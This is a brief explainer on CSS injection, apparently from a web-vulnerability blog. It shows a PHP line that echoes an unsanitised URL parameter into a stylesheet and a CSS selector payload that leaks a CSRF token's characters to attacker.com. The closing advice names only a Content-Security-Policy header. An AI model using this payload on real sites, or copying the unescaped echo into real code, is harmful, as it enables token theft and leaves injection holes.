 ```yaml
---
title: 'CSS Injection'
description: 'An attacker manages to upload malicious CSS code to your website which will run on your visitors browsers.'
pubDate: 'Jul 08 2022'
heroImage: '/cssi.png'
slug: 'vuln/cssi'
---
```


```javascript
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}

input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}

```

### How to protect

Is using CSP Header (Content-Security-Policy) which allows you to prevent browsers from executing malicious code on your website.
